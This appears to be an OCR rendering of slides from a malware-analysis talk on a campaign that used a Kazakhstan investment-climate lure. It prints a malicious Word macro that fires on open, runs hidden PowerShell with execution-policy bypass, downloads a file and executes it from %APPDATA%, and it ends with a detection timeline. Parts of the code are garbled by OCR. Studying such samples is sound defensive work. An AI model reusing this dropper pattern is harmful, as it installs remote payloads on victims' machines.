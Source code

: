####  ▼

Sep 20, 2017 - Kazakhstan has made significant progress toward creating a market economy since it gained independence in 1991, and has achieved ...

#### ₪ºF] Executive Summary Kazakhstan has made significant progress towa...  ▼

Kazakhstan has made significant progress toward creating a market economy since it gained independence in 1991, and has achieved considerable results in its efforts to attract foreign investment. ... The government maintains a dialogue with international investors and is committed to improving the

investment climate.

#### Cable: 07ASTANA173 a - WikiLeaks

####  a.html ▼

Openness to Foreign Investment toward creating a market economy since its independence in ...

![](_page_4_Picture_14.jpeg)

### Malicious Macro

```
Sub ihhumm()
Dim cmd
If Application.Documents.Count > 0 Then
cmd = "cmd.exe /c "PowerShell.exe -ExecutionPolicy Bypass -NoProfile -
     WindowStyle Hidden (New-Object System.Net.WebClient),DownloadFile('
     
     Process "%APPDATA%.exe"""
Shell cmd, False
End If
End Sub
Sub AutoOpen()
ihhumm
End Sub
```
![](_page_5_Picture_2.jpeg)

### Timeline

- First detection in 2015
- Email December 2016
- •PHDays 2017
- Virus Bulletin 2018

![](_page_6_Picture_5.jpeg)
